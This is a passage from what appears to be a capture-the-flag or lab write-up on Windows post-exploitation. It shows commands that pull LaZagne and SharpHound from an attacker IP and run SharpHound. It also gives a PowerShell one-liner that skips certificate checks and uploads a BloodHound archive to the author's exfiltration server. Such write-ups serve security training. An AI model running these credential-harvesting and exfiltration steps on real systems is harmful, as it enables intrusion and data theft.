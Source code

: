 
#### Trying to Extract Credentials using [LaZagne.exe](https://github.com/AlessandroZ/LaZagne): {#trying-to-extract-credentials-using-lazagne-dot-exe}

-   **I transer** `LaZagne.exe` **over to hunt for passwords**:
    -   `curl http://10.10.14.43:9000/LaZagne.exe -o lz.exe`
    -   I get a big fat nothing:
        -   {{< figure src="/ox-hugo/2024-10-11-095943_.png" >}}


### Using `SharpHound.exe` to enumerate the environment. {#using-sharphound-dot-exe-to-enumerate-the-environment-dot}

-   **I transfer the binary accross**:
    -   `powershell -c wget http://10.10.14.43:9000/SharpHound.exe -o sh.exe`
    -   {{< figure src="/ox-hugo/2024-10-11-102411_.png" >}}

-   **I run the collector**:
    -   `.\sh.exe`
    -   {{< figure src="/ox-hugo/2024-10-11-102440_.png" >}}


### Transferring the `SharpHound` Zip back to myself using my custom python webserver: {#transferring-the-sharphound-zip-back-to-myself-using-my-custom-python-webserver}

1.  **Start my custom python webserver**:
    -   I have this handy python webserver that is useful when exfiling data.
        -   You can find it here: <https://github.com/bloodstiller/bloodserver>
        -   Save as `bloodserver.py`
        -   Run `python3 bloodserver.py -u bloodstiller --password bl00dst1ll3r -p 9999 --https`
        -   {{< figure src="/ox-hugo/2024-10-11-114129_.png" >}}
    -   +NOTE+:
        -   Will output file as `uploaded_file`
        -   FYI my server has certs and you can enter in passwords &amp; usernames or it will auto-generate one for you.
        -   The only reason I am not using `443` for https is because my revers-shell is running over that.

2.  **Send the file from victim using** `powershell`:
    ```powershell
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; $wc = New-Object System.Net.WebClient; $wc.Headers.Add("Authorization", "Basic " + [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("bloodstiller:bl00dst1ll3r"))); try { $response = $wc.UploadData("https://10.10.14.43:9999", [System.IO.File]::ReadAllBytes("C:\Users\btables\20241011102426_BloodHound.zip")); Write-Host "Server response: $([System.Text.Encoding]::UTF8.GetString($response))"; Write-Host "File sent successfully!" } catch { Write-Host "An error occurred: $_" }
    ```

    -   {{< figure src="/ox-hugo/2024-10-11-113819_.png" >}}
    -   **File received on our attack host**:
        -   {{< figure src="/ox-hugo/2024-10-11-113854_.png" >}}
        -   +Note+: The file will be called `uploaded_file` you will have to change it back to a  `zip` file.
